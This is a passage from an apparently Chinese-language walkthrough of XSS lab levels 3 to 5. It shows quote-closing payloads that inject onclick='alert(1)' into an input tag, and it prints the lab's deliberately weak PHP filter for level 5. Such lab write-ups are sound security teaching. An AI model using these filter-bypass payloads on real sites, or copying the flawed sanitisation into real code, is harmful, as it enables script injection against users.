 原始input标签

```html
<input name=keyword  value='111111'>	
```

目的input标签(注意value属性的前半个单引号和后半个单引号的闭合)

```html
<input name=keyword  value='11111' onclick='alert(1)'>	
```

我们提交的XSS语句就成为：

```html
11111' onclick='alert(1)
```

因而可以绕过对于提交内容中的尖括号的过滤

提交后不会直接弹窗，需要手动点击输入框处，才能成功弹窗

![](https://gitee.com/YatJay/image/raw/master/img/202203052059352.png)

### Level-4

#### 构造XSS语句

第4关和第3关类似，只是在闭合input标签里的引号时，第3关需要闭合的是前后单引号，第4关需要闭合的是前后双引号，因此XSS语句就变成了

```
11111" onclick="alert(1)
```

![](https://gitee.com/YatJay/image/raw/master/img/202203052118380.png)

### Level-5

通过查看后端PHP代码发现，本关卡会过滤提交参数中的`<script`和 `on`字符，将其分别替换为`<scr_ipt` 和`o_n`，因此原来的onclick属性不能使用，更不能直接提交`<script>`脚本标签

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

#### 超链接调用javascript代码
